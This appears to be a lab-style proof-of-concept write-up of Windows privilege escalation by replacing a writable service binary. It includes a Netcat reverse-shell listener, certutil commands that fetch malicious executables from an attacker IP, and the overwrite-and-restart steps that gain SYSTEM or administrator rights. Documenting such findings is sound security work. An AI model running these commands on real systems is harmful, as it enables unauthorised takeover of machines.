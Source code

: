 ## Proof of Concept: Privilege Escalation via Insecure Service Executables

### Vulnerability Overview

**Insecure Service Executables** is a vulnerability in Windows systems where the executable file (binary) of a service has weak permissions, allowing an unprivileged user to modify or replace it. Since Windows services often run with elevated privileges (e.g., `SYSTEM`), altering the executable can lead to privilege escalation, granting attackers higher-level access to the system.

---

### Proof of Concept (PoC)

This PoC demonstrates how an unprivileged user can exploit the "Insecure Service Executables" vulnerability to escalate privileges on a target system. The process involves gaining initial access, identifying the vulnerable service, replacing its binary with a malicious executable, and executing the service to achieve elevated privileges.

#### Initial Setup and Access
- Gained initial access to the target system using user credentials.
- Established a reverse shell for command execution:
  - On the attacker machine, set up a listener using Netcat:  
    ```bash
    nc -nlvp 2294
    ```
  - On the target system, downloaded a malicious executable (`esc.exe`) to create a reverse shell:  
    ```bash
    certutil -urlcache -split -f http://10.4.106.235/esc.exe
    ```
  - **Result**: Successfully downloaded the malicious file, and the attacker machine received a connection via the reverse shell.  
    ![Reverse Shell Setup](https://github.com/user-attachments/assets/ed210457-164b-4e99-b1a3-6730248cad22)

#### Step 1: Identify the Vulnerable Service
- Queried the service `filepermsvc` to check its configuration using the following command:  
  ```bash
  sc qc filepermsvc
  ```
- **Findings**:  
  - The service runs with elevated privileges: `SERVICE_START_NAME: LocalSystem`.  
  - The binary path is: `BINARY_PATH_NAME: "C:\Program Files\File Permissions Service\filepermservice.exe"`.  
  - **Screenshot**: Service Configuration  
    ![Service Details](https://github.com/user-attachments/assets/99ea3641-0012-477a-8ccc-d65e00f4df42)

#### Step 2: Check Permissions on the Service Binary
- Used `accesschk.exe` from Sysinternals to analyze permissions on the service binary:  
  ```bash
  C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
  ```
  - **Command Breakdown**:  
    - `/accepteula`: Auto-accepts the EULA.  
    - `-q`: Quiet mode, suppresses banners.  
    - `-u`: Checks user-level access only.  
    - `-v`: Verbose output for detailed permissions.  
    - `-w`: Checks for write permissions.  
    - `C:\PrivEsc\accesschk.exe`: Path to the tool.  
    - `"C:\Program Files\File Permissions Service\filepermservice.exe"`: Target binary path.  
  - **Screenshot**: Access Check Command  
    ![Access Check Command](https://github.com/user-attachments/assets/b24ea522-1fcb-407c-a1c6-0dbded26f5c0)

- **Result**: The user account has read and write access to the binary: `RW BUILTIN\Users FILE_ALL_ACCESS`, confirming the vulnerability.  
  - **Screenshot**: Permission Results  
    ![Permission Results](https://github.com/user-attachments/assets/8812cb56-968f-493a-8733-af8b11a0e10d)

#### Step 3: Exploit the Vulnerability (Method 1 - Reverse Shell)
- Uploaded the malicious file `esc.exe` to the target system (already downloaded in the initial setup).  
- Replaced the original service binary with the malicious file:  
  ```bash
  copy esc.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
  ```
  - `/Y`: Overwrites the file without prompting.  
  - **Screenshot**: File Replacement  
    ![File Replacement](https://github.com/user-attachments/assets/85c1e6f0-bf8e-481f-a5f6-5e055be05dc2)

- Started the service to execute the malicious binary:  
  ```bash
  net start filepermsvc
  ```
- **Result**: The service executed `esc.exe`, which established a reverse shell with `SYSTEM` privileges on the attacker machine.  
  - **Screenshots**: Reverse Shell with Admin Privileges  
    ![Reverse Shell Active](https://github.com/user-attachments/assets/2819563c-bbe4-42e7-af9f-29cd6a186274)  
    ![Admin Privileges Confirmed](https://github.com/user-attachments/assets/22f9cc78-800f-43d3-9e7b-d4fe7944b35a)

#### Step 4: Exploit the Vulnerability (Method 2 - Add User to Admin Group)
- Uploaded a second malicious file, `x.exe`, a compiled Windows service binary designed to add the current user to the Administrator group:  
  ```bash
  certutil -urlcache -split -f http://10.4.106.235/x.exe
  ```
  - **Screenshot**: File Upload  
    ![File Upload](https://github.com/user-attachments/assets/e8ea9a11-9260-4faf-858b-9ae83964c9ae)

- Replaced the service binary with `x.exe`:  
  ```bash
  copy x.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
  ```
  - **Screenshot**: File Replacement  
    ![File Replacement](https://github.com/user-attachments/assets/acb2c733-d030-4cea-a430-e7fc7a986807)

- Checked the user’s privileges before executing the service:  
  - **Screenshot**: Initial User Privileges  
    ![Initial Privileges](https://github.com/user-attachments/assets/829b828e-8bdd-4d92-abfe-23a8e433bb75)

- Started the service to execute the malicious binary:  
  ```bash
  net start filepermsvc
  ```
- **Result**: The service executed `x.exe`, adding the user to the Administrator group, successfully escalating privileges.  
  - **Screenshot**: Updated User Privileges  
    ![Updated Privileges](https://github.com/user-attachments/assets/906ade65-553d-4d50-8bb0-2b7e299165b9)

---

### Summary of Findings

- The `filepermsvc` service binary had insecure permissions, allowing the `BUILTIN\Users` group to modify it (`FILE_ALL_ACCESS`).  
- Two methods were used to exploit this vulnerability:  
  1. Replaced the binary with `esc.exe`, gaining a reverse shell with `SYSTEM` privileges.  
  2. Replaced the binary with `x.exe`, adding the user to the Administrator group.  
- Both methods successfully escalated privileges, demonstrating the severity of the vulnerability.

---

### Conclusion

This PoC confirms that the "Insecure Service Executables" vulnerability in the `filepermsvc` service allows an unprivileged user to escalate privileges to `SYSTEM` or Administrator level. By exploiting weak permissions on the service binary, attackers can execute arbitrary code with elevated privileges, posing a significant risk to system security. Immediate remediation is recommended, such as restricting permissions on service binaries and ensuring services run with the least privilege necessary.

---

